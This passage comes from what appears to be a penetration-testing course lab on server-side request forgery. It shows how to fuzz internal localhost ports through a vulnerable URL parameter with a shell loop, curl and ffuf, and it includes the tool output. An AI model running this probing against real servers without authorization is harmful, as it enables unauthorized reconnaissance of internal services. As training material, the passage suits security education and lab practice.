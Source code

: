 Bear in mind that fetching remote HTML files can lead to Reflected XSS.

Remember, we only have two open ports on the target server. However, there is a possibility of internal applications existing and listening only on localhost. We can use a tool such as ffuf to enumerate these web applications by performing the following steps:

1.  Generate a wordlist containing all possible ports.

#### Generate a Wordlist

```shell
p3ta@htb[/htb]$ for port in {1..65535};do echo $port >> ports.txt;done
```

2.  Issue a cURL request to a random port to get the response size of a request for a non-existent service.

#### Curl - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 30
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:36:25 GMT

[Errno 111] Connection refused
```

3.  Use ffuf with the wordlist and discard the responses which have the size we previously identified.

#### Port Fuzzing

```shell
p3ta@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 30
________________________________________________

80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```
